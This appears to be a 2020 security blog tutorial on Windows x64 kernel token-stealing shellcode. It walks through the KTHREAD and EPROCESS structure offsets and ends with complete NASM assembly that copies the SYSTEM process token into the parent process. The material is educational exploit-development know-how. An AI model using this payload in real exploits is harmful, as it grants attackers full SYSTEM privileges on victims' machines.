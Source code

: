 ```yaml
---
title: "Windows Kernel Shellcode : TokenStealer"
tags: ["windows", "exploit", "shellcode", "kernel", "token"]
date: 2020-02-03T16:25:30+01:00
comments: true
draft: false
---
```


A typical approach involving Reverse/Bind shellcode won't prove effective for Windows Kernel Exploitation. More often than not, practitioners resort to techniques such as Nulling out ACLs, Enabling privileges or Replacing process token.

### TL;DR
This article concentrates primarily on the **"Process Token Replacement"** Shellcode. The concept revolves around locating a privileged process and transferring its token to an unprivileged process, usually the parent process. (It's important to note that an exploit (**exploit.exe**) is executed through a command line (**cmd.exe**), which acts as the parent process.)

To summarize the steps:

- Identify the EPROCESS address of the current process.
- Pinpoint the EPROCESS address of the parent process.
- Locate the EPROCESS address of the SYSTEM process.
- Duplicate the token from the SYSTEM process to the parent process.
- Attain control over NT AUTHORITY/SYSTEM privileges.

For experimentation, ensure you're in a context where you have the ability to execute arbitrary kernel mode code and assembly code.

> Please be aware that the offsets need adjustment depending on the Windows build number you're working with! Refer to https://www.vergiliusproject.com/ for further information.

### Step 1

In our shellcode we need to start by locating the `_KTHREAD* CurrentThread` structure of the current process, let's see step by step how to find it !

The `GS[0]` segment point at the [_KPCR](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPCR) (Kernel Processor Control Region) structure which contains information about the processor.

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/KPCR.PNG" width="70%" >}}

In the last field of `KPCR`, exactly in `GS[0x180]` segment we can find the [_KPRCB](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPRCB) (Kernel Processor Control Region Block) structure which contains information about the current Thread.

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/KPRCB.PNG" width="70%" >}}

As you can see the offset `0x08` of `KPRCB` point at a [_KTHREAD* CurrentThread](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KTHREAD) structure of the CurrentThread, which is at `GS[0x188]`. So first instruction in assembly will be : 

```nasm
mov r9, qword [gs:0x188]  ; Pointing at _KTHREAD structure
```
### Step 2 

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/KTHREAD.PNG" width="70%" >}}

What we care more about in the `_KTHREAD` structure is the offset `0x220` where we can find the [_KPROCESS* Process](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_KPROCESS) structure. 

```nasm
mov r9, qword [r9 + 0x220]  ; Pointing at _KPROCESS/_EPROCESS structure
```

> The _KPROCESS structure is first field in the [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/1909%2019H2%20(November%202019%20Update)/_EPROCESS) structure. So the address of _KPROCESS is the same as the address of _EPROCESS.

### Step 3

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/EPROCESS.PNG" width="70%" >}}

As we can see the offset `0x3e8` from the `_EPROCESS` point at the `InheritedFromUniqueProcessId` which is the **parent PID** (cmd.exe in our case).

```nasm
mov r8, qword [r9 + 0x3e8]  ; Saving the Parent PID in r8
mov rax, r9                 ; Saving the _KPROCESS/_EPROCESS address
```

#### To summarize

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/EPROCESS-MAP.png">}}


### Step 4

Now we have the parent PID, it's time to look for the `_EPROCESS` structure associated to it !

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/PID.PNG" width="70%" >}}

The offset `0x2f0` point at the `_LIST_ENTRY ActiveProcessLinks` structure, which is a linked-list points at the beginning of `_EPROCESS` structure for each **Active Process**. 

So we need loop over them and each time we compare the PID value with the `VOID* UniqueProcessId` (offset `0x2e8`), until we find the right `_EPROCESS` of the parent PID.

```nasm
loop1:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8   ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
```
### Step 5

Once we found the right `_EPROCESS` structure, we need to save the address that point at the `_EX_FAST_REF Token` (offset `0x360`), which is the token that need to be replaced.

```nasm
mov rcx, rax    ; Copy the _EPROCESS address to RCX
add rcx, 0x360  ; Pointing RCX at Token
```
### Step 6

We need to do the same thing with a **privileged process**. Most of the time we use the `system` process (PID of `4`).

```nasm
loop2:
mov rax, qword [rax + 0x2f0]  ; Next ActiveProcessLinks Entry
sub rax, 0x2f0                ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4  ; Compare the PID (4) with the UniqueProcessId
jne loop2
```

### Step 7

After we find the `_EPROCESS` structure of the privileged process, it's time to replace the token of the unprivileged process (Parent PID **cmd.exe**) with the token of the privileged process **system**.

```nasm
mov rdx, rax            ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360          ; Pointing RDX at the Token of system
mov rdx, qword [rdx]    ; Copying the Token
mov qword [rcx], rdx    ; Replace the cmd.exe Token with the system Token
ret
```
### Exploit

{{< figure src="/img/windows-kernel-shellcode-tokenstealer/SYSTEM.PNG" width="90%" >}}

### Final Code

```nasm
[bits 64]
global _start

section .text

_start:
mov r9, qword [gs:0x188]     ; Pointing at _KTHREAD structure
mov r9, qword [r9 + 0x220]   ; Pointing at _KPROCESS/_EPROCESS structure
mov r8, qword [r9 + 0x3e8]   ; Saving the Parent PID in r8 / you can change it directly with a PID value from your choice !
mov rax, r9                  ; Saving the _KPROCESS/_EPROCESS address
loop1:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Point in the beginning of _EPROCESS structure
cmp qword [rax + 0x2e8], r8  ; Compare the saved Parent PID with the UniqueProcessId
jne loop1
mov rcx, rax                 ; Copy the _EPROCESS address to RCX
add rcx, 0x360               ; Pointing RCX at Token
mov rax, r9
loop2:
mov rax, qword [rax + 0x2f0] ; Next ActiveProcessLinks Entry
sub rax, 0x2f0               ; Pointing in the beginning of _EPROCESS
cmp qword [rax + 0x2e8], 0x4 ; Compare the PID (4) with the UniqueProcessId
jne loop2
mov rdx, rax                 ; Pointing RDX at the beginning of _EPROCESS of system
add rdx, 0x360               ; Pointing RDX at the Token of system
mov rdx, qword [rdx]         ; Copying the Token
mov qword [rcx], rdx         ; Replace the cmd.exe Token with the system Token
ret
```

#### References:
* [Improsec](https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1)
* [Cesar Cerrudo in 2012](https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH_US_12_Cerrudo_Windows_Kernel_WP.pdf)
* [InfoSecInstitute](https://resources.infosecinstitute.com/kernel-exploitation-part-2/)